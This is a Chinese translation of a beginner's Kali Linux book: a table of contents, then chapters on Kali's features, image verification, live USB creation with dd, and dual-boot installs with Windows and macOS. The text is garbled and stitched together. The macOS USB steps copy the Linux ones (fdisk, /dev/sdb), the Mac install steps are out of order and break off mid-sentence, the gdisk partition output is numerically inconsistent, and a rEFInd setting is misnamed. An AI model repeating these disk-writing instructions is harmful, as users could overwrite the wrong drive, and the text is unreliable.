









# Kali Linux：3合1：初学者指南+简单有效的策略+学习 Kali Linux 的高级方法与策略

- HP Chromebook
- Kali Linux – ODROID U2

# 第 6 章：安装故障排除

Kali 安装失败

如何保存或传输调试日志？

无线驱动程序的故障排除

Kali Linux 中的命令

键盘快捷键

其他实用命令

搜索命令

文件权限

文件命令

压缩命令

打印命令

网络命令

SSH 命令

用户管理命令

进程管理命令

从源码安装命令

# 引言

理解 ICMP

`iptables` 和 `ip6tables` 语法

配置在每次启动时运行的脚本

+ 引言

侦察

扫描

利用

维持访问

报告

- 引言
- 信任的代理
- Google 搜索
- Google 攻击
- 引言
- 网络流量
- 端口与防火墙
- IP 协议
- TCP
- UDP
- ICMP
- PING
- Traceroute
- NMAP：扫描之王
- `map` 脚本引擎
- Nessus

# 第 5 章：利用

- 攻击向量和攻击类型
- 本地漏洞
- 远程漏洞
- Metasploit 框架
- 合规性与 Nexpose
- 公开 vs 隐蔽
- Metasploit：基础框架
- 访问 Metasploit
- Metasploit 扫描
- Meterpreter 会话管理
- 访问文件系统
- 利用 Web 服务器和 Web 应用程序
- 引言
- 术语
- 后门
- 渗透测试报告部分
- 报告工具

Ethan Thorpe

## 第 1 章

# Kali Linux 简介


Kali 是一种基于 Debian 的 Linux 发行版，专门为安全领域的应用而创建，主要侧于安全审计和渗透测试。Kali 配备了数百种用于信息安全各种任务的工具，包括安全研究、渗透测试、逆向工程、计算机取证等。Offensive Security 是全球信息安全培训领域的领先公司，它开发了 Kali Linux 并在目前资助其维护。

Kali Linux 是 BackTrack Linux 的继者。BackTrack Linux 是一种为安全任务开发的 Linux 发行版，旨在渗透测试和数字取证。在 BackTrack 于 2013 年弃用后，Kali Linux 于 2013 年 3 月发布，它是对 BackTrack Linux 从底层的完全重构，符合所有的 Debian 开发标准。

在深入学习这本书之前，让我们简要概述 Kali Linux 的特性。

# Kali Linux 的特性

## 渗透测试工具

Kali Linux 提供了超过 600 种渗透测试工具。如果查看前身 BackTrack 中的可用工具数量，会发现很多工具无法运行，或者只是其他工具已存在功能的重复。这些工具在 Kali Linux 的版本中已经被删除了。

## 免费使用

BackTrack Linux 完全免费使用，Kali Linux 也延续了这一点。作为 Kali Linux 用户，你永远不需要为操作系统或其配备的工具付费。

## 开源

Kali Linux 致力于开源模型，因此 Kali Linux 的开发树已对互联网上的所有人开放。Kali Linux 的源代码可以在 gitlab 上找到，任何想要对其进行自定义并重新构建包以适应其特定需求的人都可以使用。

## 符合 FHS 标准

Kali 符合文件系统层次结构标准（FHS），这是所有 Linux 发行版都遵循的 same。这将使得系统能够定位二进制文件、库、支持文件等。

## 对无线设备的支持

过去 Linux 系统的一个顾虑是其对无线设备的支持。Kali Linux 的开发和构建方式支持广泛的无线设备，并能与各种硬件兼容，因此将支持 USB 和大多数无线设备。

## 自定义内核

Kali Linux 内核配备了最新的注入补丁。作为渗透测试人员，这有助于开发团队轻松地进行无线评估。

它们在安全环境中开发。Kali Linux 开发团队包含一个非常小的个人小组，他们被信任可以向 Kali Linux 的仓库和包提交代码，所有操作都是通过多个通道使用安全协议完成。

## GPG 签名

每个开发过 Kali Linux 包的开发者都会对其进行签名，随后仓库也会对包进行签名。

## 语言支持

渗透工具通常用英语编写。然而，Kali Linux 开发者确保了 Kali 包含了语言支持。

## 可定制

虽然 Kali Linux 的架构高度可定制，但如果添加不符合 Kali Linux 领域且未从常规来源下载的随机、无关包，在 Kali 上将无法运行。

（注：由于原文中存在大量重复和 OCR 错误，已根据逻辑流进行了清理和整合翻译）

如果你不具备管理系统的基础知识或能力，或者你只是在寻找第一个用于学习 Linux 的 Linux 系统

如果你只是在寻找一个用于日常活动的操作系统，那么 Kali Linux 并不是你可能作为起点的操作系统。

此外，在没有任何授权的情况下，在计算机网络中滥用渗透测试工具和安全手段，可能会导致不可逆的损害，且此类损害造成的后果可能会让你陷入个人或法律困纷。在这些情况下，“你不知道自己在做什么”这种借口是行不通的。

相反，如果你目标是成为一名专业的渗透测试人员，且唯一目标是成为一名认证专业人士，那么没有比 Kali Linux 更好的操作系统可以寻找，无论付出什么代价，尤其是考虑到它还是免费的。

所以，总结一下并回答我们在本章开始时提出的问题，如果你只是想从操作系统的 Linux 基础开始，Kali Linux 并不适合你。你应该先从 Ubuntu、Debian 或 Mint 等简单的 Linux 版本开始。

## 第 2 章

安装和下载 Kali Linux

永远不要从官方源以外的任何地方下载 Kali Linux 镜像。下载镜像后，请务必通过官方文件值验证你下载文件的 SHA256 校验和。第三方入侵者很容易修改安装文件，使其包含恶意软件，最终这些恶意软件将运行你的系统中。

你可以通过以下链接下载所有 Kali Linux 安装的官方镜像：

- https://www.kali.org/downloads/
- https://www.offensive-security.com/kali-linux-vmware-arm-image-download/

# 在哪里获取官方 Kali Linux 镜像

### 适用于 Intel 电脑的 ISO 文件

为了能够在 Windows PC 或 Apple PC 上使用 USB 驱动器以“Live”模式运行 Kali Linux，你需要下载 32 位或 64 位的 Kali Linux 安装 ISO 镜像。

如果你确定当前系统的架构，可以在 Linux 或 Apple OS X 的终端中运行以下命令来获取架构。

```
uname -m
```

如果返回的响应为“x86_64”，则表示是 64 位架构，你可以使用网站上提供的 64 位 ISO 镜像（带有“amd64”后缀的文件）。

如果返回的响应为“i386”，则表示是 32 位架构，你可以从网站下载 32 位 ISO 镜像（带有“i386”后缀的文件）。

你会在电脑系统属性的“设备类型”标题下找到提到的架构。

你可以在网站上以直接下载文件或 torrent 文件的格式下载 Kali Linux ISO 镜像。

### VMware 镜像

如果你正在使用 VMware 并想将 Kali Linux 作为“虚拟机”，Kali Linux 提供预构建的、已安装好 VMware Tools 的 VMware 虚拟机。VMware 镜像提供 64 位、32 位和 32 位 PAE 格式。

### ARM 镜像

基于 ARM 的设备硬件和架构差异很大。因此，无法为各种 ARM 设备维护一个单一的安装镜像。Kali Linux 提供了一系列不同的预构建镜像，用于在广泛的设备上进行安装。

如果你想构建自己的 ARM 镜像，在 Kali 的 GitHub 仓库中可以找到用于构建自定义 ISO 的脚本。

## 验证你下载的 Kali 镜像

### 我为什么需要做这一步？

在尝试运行 Kali Live 或尝试将其安装到你的机器上之前，你需要确保手里拿到的是正版 Kali Linux 而不是其他东西。Kali Linux 是一个专业的渗透测试工具包。作为渗透测试的专业人士，你需要对你所使用的工具充满信心。如果你的工具不可信，那么你所做的调查也将不可信。

此外，由于 Kali 被认为是渗透测试发行版的顶峰，Kali 的强大意味着如果在没有任何预先检查的情况下部署伪造版操作系统，可能会造成巨大的损害。世界上有许多人有充分的理由将有害内容植入 Kali Linux 安装中，而你不希望成为这种行为的受害者。

避免这种情况非常简单：确保你只从官方源下载 Kali Linux 的安装镜像。

- https://www.kali.org/downloads/


- https://www.offensive-security.com/kali-linux-vmware-arm-image-download/

这些页面使用 SSL 连接加密，人们无法通过明文 HTTPS 协议访问这些页面。由于是加密连接，攻击者很难拦截你与网站之间的连接，从而使得无法修改下载的文件。

下载镜像文件后，请确保你验证了它确实是你预期的内容，而不是恶意文件。下载后验证校验和始终确保你拥有正版文件的极方法。

验证下载的文件有很多方法。每种方法都提供某种程度的保证，并要求你付出相应的特定努力。

你可以从 Kali Linux 官方网站的“下载”部分下载 Kali Linux 安装 ISO，计算下载文件的 `SHA256` 校验和，并将其与网站上对应下载文件列出的校验和进行对比。这是一种非常简单的验证方法，但有时会受到 DNS 污染的影响。

为了确保得到的是正版，你可以下载签名文件和官方密钥，然后执行以下操作：

- 使用 GNU 隐私卫（`GPG`）交叉检查明文文件的签名和计算出的 `SHA256` 校验和。
- 验证文件是否使用密钥正确签名。

# Kali Linux 默认 root 密码为 toor

## 默认 root 密码

当你进行 Kali Linux 安装时，系统会提示为 `root` 用户设置密码。然而，如果你决定直接从 USB 启动操作系统并使用 Kali Linux Live，`root` 用户的默认密码为不带引号的 `toor`。

# 第 3 章

## 制作 Kali 启动 U 盘



运行 Kali Linux 的简单方法是从 USB 驱动器“Live”运行。这种方法也有很多优点。

## 启动 U 盘的优点

### 无破坏性

它不会对你的机器或机器上的现有操作系统进行任何更改，因为它直接从 USB 驱动器运行。要回到没有 Kali Linux 的现有设置，你只需要拔掉 USB 驱动器并重启系统。

### 便携性

你可以将 Kali Linux 操作系统放在口袋里的任何 U 盘中，并在任何可用机器上运行它。

### 可定制性

如上一章所述，你可以使用 Kali GitHub 仓库中的脚本构建自定义的 Kali Linux 安装 ISO，并将其加载到 U 盘中。

# 持久化

通过少量的自定义，你可以让 Kali Linux Live USB 启动盘存储持久化数据，这些数据将在重启后仍然保留。

为了这一目的，我们首先需要使用 Kali Linux 的 ISO 镜像来创建一个可启动的 USB 盘。

## 创建 Kali Linux USB 的要求

- 1. 一份经过验证的 Kali Linux ISO ，适用于你打算运行或安装它的系统。
- 2. 如果你使用的是 Windows，你需要 Win32 Disk Imager 软件来创建 Kali Linux USB 盘。在 Linux 或 OS X 上，你可以使用终端上的 `dd` 命令，该命令已预装，用于创建可启动的 USB 盘。
- 3. 一个容量为 4GB 或更大的 USB 盘。如果你的系统支持 SD 卡槽，你也可以通过类似的过程使用 SD 卡。

## Kali Linux Live USB 安装步骤

让我们来看看为 Kali Linux 创建 USB 盘的过程。该过程将根据你创建 USB 盘的主机系统（Windows、Linux 还是 OS X）而有所不同。

## 在 Windows 上创建可启动的 Kali USB 盘

- 1. 将 USB 插入电脑的 USB 插槽并记录分配给它的驱动器号。启动你之前下载的 Win32 Disk Imager 应用程序。
- 2. 选择 Kali Linux 安装的 ISO 文件，并确保你已选择要写入的 USB 盘。点击“Write”（写入）。
- 3. 写入 USB 完成后，你可以弹出驱动器并将其作为可启动 USB 盘来启动 Kali Linux Live 或在你的电脑上安装 Kali Linux。

## 在 Linux 上创建可启动的 Kali USB 盘

在 Linux 操作系统中创建可启动的 USB 盘非常简单。一旦你下载并验证了 Kali Linux ISO 文件，就可以使用终端上的 `dd` 命令将文件写入 USB 盘。你需要 `root` 权限或 `sudo` 权限来运行 `dd` 命令。

警告：如果你不确定如何使用 `dd` 命令，可能会将 Kali Linux 镜像写入到你并非预期的磁盘驱动器中。因此，在使用 `dd` 命令时保持警惕非常重要。

### 第一步

你需要知道用于将 Kali Linux 镜像写入 USB 盘的设备路径。在不将 USB 盘插入插槽的情况下，在终端窗口的命令行提示符中执行以下命令。

```
sudo fdisk -l
```

你将得到一个显示系统上挂载的所有设备的输出，分区将显示为：

```
/dev/sda1
```

```
/dev/sda2
```

### 第二步

现在，插入 USB 盘并再次运行相同的命令“`sudo fdisk -l`”。这次你将看到一个额外的设备，那就是你的 USB 盘。它将显示为类似以下的内容：

```
/dev/sdb
```

你的 USB 盘的容量将列在其旁边。

### 第三步

使用下面所示命令小心地将镜像写入 USB 盘。在上面的示例中，我们假设你的 Kali Linux ISO 文件名为“`kali-linux-2019.1-amd64.iso`”且它位于当前工作目录中。块大小参数 `bs` 可以增加，但理想值是“`bs=512k`”。

```
dd if=kali-linux-2019.1-amd64.iso of=/dev/sdb
```

写入 USB 盘将需要几分钟时间，完成写入花费超过 10 分钟并不非正常现象。

在过程完成之前，`dd` 命令不会有任何输出。如果你的 USB 盘有 LED 灯，你会看到它闪烁，作为正在写入磁盘的指示。一旦 `dd` 命令完成，输出将类似于所示：

```
5823+1 records in
```

```
5823+1 records out
```

```
3053371392 bytes (3.1 GB) copied, 746.211 s, 4.1 MB/s
```

这将结束方程的计算。你现在可以使用该 USB 盘启动 Kali Linux Live。

## 在 OS X 上创建可启动的 Kali USB 盘

Apple OS X 是一个基于 UNIX 的操作系统。在 OS X 上创建可启动的 USB 盘与 Linux 类似。

警告：如果你不确定如何使用 `dd` 命令，可能会将 Kali Linux 镜像写入到你并非预期的磁盘驱动器中。因此，在使用 `dd` 命令时保持警惕非常重要。

在 OS X 上创建可启动的 USB 盘，在你下载并验证 Kali Linux ISO 文件后，可以使用终端上的 `dd` 命令将文件写入 USB 盘。

### 第一步

你需要知道用于将 Kali Linux 镜像写入 USB 盘的设备路径。在不将 USB 盘插入插槽的情况下，在终端窗口的命令行提示符中执行以下命令。

```
sudo fdisk -l
```

你将得到一个显示系统上挂载的所有设备的输出，分区将显示为：

```
/dev/sda1
```

```
/dev/sda2
```

### 第二步

现在，插入 USB 盘并再次运行相同的命令“`sudo fdisk -l`”。这次你将看到一个额外的设备，那就是你的 USB 盘。它将显示为类似以下的内容：

```
/dev/sdb
```

你的 USB 盘的容量将列在其旁边。

### 第三步

使用下面所示命令小心地将镜像写入 USB 盘。在上面的示例中，我们假设你的 Kali Linux ISO 文件名为“`kali-linux-2019.1-amd64.iso`”且它位于当前工作目录中。块大小参数 `bs` 可以增加，但理想值是“`bs=512k`”。

```
dd if=kali-linux-2019.1-amd64.iso of=/dev/sdb
```

写入 USB 盘将需要几分钟时间，完成写入花费超过 10 分钟并不非正常现象。

在过程完成之前，`dd` 命令不会有任何输出。如果你的 USB 盘有 LED 灯，你会看到它闪烁，作为正在写入磁盘的指示。一旦 `dd` 命令完成，输出将类似于所示：

```
5823+1 records in
```

```
5823+1 records out
```

```
3053371392 bytes (3.1 GB) copied, 746.211 s, 4.1 MB/s
```

这将结束方程的计算。你现在可以使用该 USB 盘启动 Kali Linux Live 或在电脑上开始安装 Kali Linux。

如果你具有创建细粒配置的经验，可以使用逻辑卷管理器（Logical Volume Manager）来创建分区。

- 10. 选择你想要创建分区的磁盘。


## 安装磁盘分区配置

- 11. 你可以将所有文件保留在一个分区中（默认选项），也可以根据你使用软件的用途为你选择的几个目录创建新分区。如果你不确定想要什么，可以选择默认选项，即“所有文件在一个分区”。

- 12. 在此屏幕上，你有最后一次机会查看所选择的所有磁盘配置，之后安装程序将开始进行不可逆的更改。当你在此点击“继续（Continue）”时，安装程序将开始安装 Kali Linux，你将获得一个几乎完成的安装。

- 13. 下一步是为系统配置网络镜像。Kali 使用中央存储库来分发应用程序。如果你正在使用代理服务器，需要在在此输入相关信息。

注意：如果你在此屏幕上选择“否”，你以后将无法使用任何 Kali 存储库进行软件安装。

- 14. 在此屏幕上，你将安装 GRUB。统一引导加载程序（Grand Unified Bootloader，简称 GRUB）是一种引导程序，用于在你有多个操作系统供启动的情况。鉴于这是一次全新的安装，你可以将 GRUB 安装在主引导记录上，并使其成为系统的主引导程序。

- 15. 就好了。你现在可以点击继续按钮，系统将重启，你的 Kali Linux 安装现在已完成。

## 在 Windows 旁安装 Kali Linux

在同一系统上于 Windows 旁安装 Kali Linux 非常有利。尽管如此，在设置双操作系统安装时，你需要非常有耐心且谨慎。首先，确保已备份 Windows 安装中的所有重要数据。此外，由于此操作将导致你的硬盘发生修改，建议在外部介质上备份所有重要内容。

在我们即将查看的示例中，我们使用的是一个已经安装了 Windows 7 且占据了 100% 磁盘空间的系统。因此，我们将首先调整 Windows 分区的大小使其占用较少空间，然后在新的空分区上继续安装 Kali Linux。

你可以通过准备好以下清单来准备安装：

- 1. 根据你的系统架构下载 Kali Linux ISO。

- 2. 使用上一章节提到的工具将 Kali Linux ISO 写入 DVD 或 USB 闪器。

- 3. 你必须确保你的电脑已准备好从 USB 闪器启动。

在机器上安装 Kali Linux 的最低硬件要求如下：

- 1. Windows 系统上的安装文件至少需要 20 GB 的可用空间。

- 2. 内存至少 1GB。但建议 2GB 或更高以获得更好的性能。

- 3. DVD 驱动器或 USB 启动支持有助于安装 Kali Linux。

## 使用 gparted 调整 Windows 分区

- 1. 开始安装时，使用加载了 Kali Linux ISO 的安装介质启动系统。你将看到 Kali Linux 启动界面。点击“Live”，这将进入 Kali Linux 桌面。

- 2. 进入 Kali Linux 桌面后，启动 `gparted`。我们将使用 `gparted` 压缩现有的 Windows 分区，这将帮助我们为 Kali Linux 安装创建足够的空间。

- 3. 在 `gparted` 中，选择你的 Windows 分区。通常有两个分区：一个较小的恢复分区和一个较大的 Windows 分区。调整 Windows 分区的大小，并为 Kali Linux 安装留出一个新的 20GB 分区。

- 4. 一旦你划分了分区...

如果一切正常，你可以从 FAT 卷选项中选择 Windows – Legacy OS，这将引导你进入 Kali Linux 启动界面。在这里你可以选择 Live（实时模式），你将被引导到 Kali Linux 桌面。

我们现在可以像之前读的那样使用 `gparted` 来压缩操作系统分区，并为 Kali Linux 安装创建一个 20GB 的分区。在 Kali Linux 中，可以通过以下路径找到 Gparted：

`Applications -> System Tools -> GParted Partition Editor`

一旦启动 `gparted`，选择 OS X 分区。它通常是较大的分区。调整其大小并留出 20GB 空间为 Kali Linux 安装创建一个新分区。

## 在 Mac 上安装 Kali Linux

- 1. 当 Mac 启动时，立即按住 Option 键，直到看到 rEFInd 启动菜单提示。

- 2. 一旦看到启动菜单，插入安装介质（DVD 或 USB 闪盘）。如果一切运行正常，你将看到两个卷：

- EFI – EFI\BOOT\syslinux.efi 来自 61 MiB FAT 卷

- Windows – Legacy OS 来自 FAT 卷

选择 Windows，因为 Linux 在 OS X 上被识别为 Windows。这将带你进入 Kali Linux 菜单。

- 3. 进入启动界面后，继续选择‘Live’、`Graphical Install` 或 `Text-Mode Install` 以开始安装过程。我们将使用图形模式步骤进行此练习。

- 4. 在下一个屏幕上，选择你的国家和首选语言。你还将为系统选择键盘布局。

- 5. 安装将开始并将所有安装文件复制到系统的硬盘中。随后你将被要求为系统输入主机名，你可以根据喜输入任何名称。如果你有域名，也可以输入。

- 6. 根据你的网络输入网络信息。网络配置将自动获取，但如果你的网络上有 DHCP 服务，安装可能会要求你手动输入网络信息。也可能发生安装未检测到网卡的情况，你可以稍后手动安装驱动程序。

- 7. 为你的系统创建一个强密码。

- 8. 为你的系统选择时区。

- 9. 安装程序现在将列出用于安装 Kali Linux 的磁盘选项。我们已经在之前的步骤中创建了一个分区用于 Kali 安装。选择‘引导式 — 使用最大的连续空空间’（`Guided — use the largest continuous free space`）。

如果你是经验用户，可以随时使用‘手动’（`Manual`）选项进行细粒配置。在此屏幕上，如果你希望 Kali 安装被完全加密，还可以设置加密的 LVM。

现在系统会提示你输入密码。输入你在在此过程第 7 步中设置的相同密码。当你想要启动 Kali Linux 时，需要使用相同的密码。

安装程序现在会在询问密码之前安全地擦除你的磁盘。根据磁盘的大小和速度，这可能需要一些时间，或几个小时。

接下来我们必须选择你想要维护的分区结构。如果你想将所有内容放在一个分区上，请使用默认选项。你将看到一个概览，如果你同意，可以点击“继续”（`Continue`）。

在此屏幕上，你将有最后机会检查你为安装选择的磁盘配置，之后更改将是不可逆的。点击“继续”，安装将开始，你几乎就完成了完成了。

- 10. 下一步是为系统配置网络镜像。Kali 使用中央存储库来分发应用程序。如果你正在使用代理服务器，你需要输入相关信息。

注意：如果你在此屏幕上选择否，那么未来你将无法使用任何 Kali 存储库进行软件安装。

- 11. 在此屏幕上，你将安装 GRUB。Grand Unified Bootloader 或 GRUB 是一种引导加载程序，用于你有多个操作系统需要启动的情况。你可以将 GRUB 安装在主引导记录（MBR）上，并使其成为系统的主要引导程序。

- 12. 最后点击‘继续’完成 Kali Linux 安装。我们建议现在重启系统。系统重启后，重复前两个步骤再次进入‘Live模式’。

- 13. 如果你的 Kali Linux ISO 不包含 `gdisk` 包，则需要先安装它。

- 14. 如果在 Kali Linux 安装期间启用了网络存储库，你可以使用以下命令轻松安装 `gdisk`。

```
apt-get update
apt-get install gdisk
```

此过程将帮助我们把系统的主引导记录（MBR）转换为混合格式，Apple 的启动管理器能够检测条目并从其启动。

```
root@kali:~# gdisk /dev/sda
```

GPT fdisk (gdisk) version 8.5

Partition table scan:

MBR: protective

BSD: not present

APM: not present

GPT: present

Found valid GPT with protective MBR; using GPT.

Command (? for help): p

Disk /dev/sda: 9767318 sectors, 465 GiB

Logical sector size: 512 bytes

Disk identifier (GUID): B3DB3D4-ECFD-47A1-9435-F2FF318

Partition table holds 128 entries

The first usable sector is 34, last usable sector is 97673134

Partitions will be aligned on sector boundaries

Total free space is 245 sectors (122.5 KiB)

| Number | Start (sector) | End (sector) | Size | Code | Name |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | 4096 | 40939 | 200.0 MiB | EF | System Partition |


| 2 | 40960 | 54841339 | 261.3 GiB | AF00 | Macintosh |
| 3 | 975503592 | 976773127 | 619.9 MiB | AB00 | Recovery HD |
| 4 | 548413440 | 548415487 | 1024.0 KiB | EF02 | |
| 5 | 548415488 | 958813867 | 195.4 GiB | 0700 | |
| 6 | 958813868 | 975503359 | 8.3 GiB | 8200 | |

Command (? for help): `r`

Recovery/transformation command (? for help): `h`

WARNING! Hybrid MBRs are flaky and dangerous! 如果决定不使用，请在下面的提示处按回车键，你的 MBR 分区表将保持不受触。

输入一到三个 GPT 分区编号，用空格分隔，按顺序添加到混合 MBR 中：5

将 EFI GPT (`0xEE`) 分区置于 MBR 之前（对 GRUB 有益）？(Y/N): `y`

正在为 GPT 分区 #5 (MBR 分区 #2) 创建条目

输入 MBR 十进制代码（默认 `07`）：`83`

标记？(Y/N): `y`

发现未使用的分区空间。使用一个来保护更多分区？(Y/N): `n`

Recovery/transformation command (? for help): `w`

最终检查完成。准备写入 GPT 数据。这将会覆盖现有分区！！

确定继续吗？(Y/N): `y`

OK; 正在向 `/dev/sda` 写入新分区表 (GPT)。

操作成功完成。

```
root@kali:~#
```

18. 我们现在可以使用 OS X 和 Kali Linux，并在启动时可以选择进入哪一个。

## rEFInd 配置

或者，如果你愿意，可以对 rEFInd 进行多种修改，包括：

- 1. 操作系统选择（默认为 OS X）。
- 2. 启动超时时间（默认为 20 秒）。
- 3. 直接进入默认操作系统（如果你想使用其他操作系统，可以按 Options 键）。
- 4. 移除 rEFInd（这将启用 Apple 菜单）。这仍然允许启动 Apple 和 Kali Linux。

要进行任何这些修改，只需进入 OS X 并通过终端修改文件：

```
osx:~ mbp$ sudo nano /EFI/refind/refconf.conf
```

要更改菜单的等待秒数，可以修改 `timeout` 值。如果你将其设置为 `-1`，它将进入默认操作系统（在本例中为 OS X）。

```
timeout -1
```

要设置默认选择操作系统，修改 `default_selection` 值。OSX 的值为 1，Kali Linux 的值为 2。`default_selection` 值设置了启动时的默认选择。 OSX 位于‘1’，Kali 位于‘2’。让我们在此场景下使用 OS X 作为默认。

```
default_value 1
```

现在如果我们保存对该文件所做的更改，重启系统时将感觉没有变化。但如果你在启动时按 Options 键，将弹出 Apple 菜单并显示以下选项：

EFI – OSX

Windows – Kali Linux

Recovery HD – OSX 的恢复分区

## 在 Mac 硬件上单启动 Kali

## Kali Linux 安装要求

Kali 内置已支持 EFI。此功能使得在多种 Apple 设备（如 MacBook Pro、Air 和 Retina 版本）上安装 Kali 非常简单方便。

设备的型号/品牌/年份将影响你的体验。设备越新，体验越好。预先设备安装 rEFInd 可以增加成功的概率。

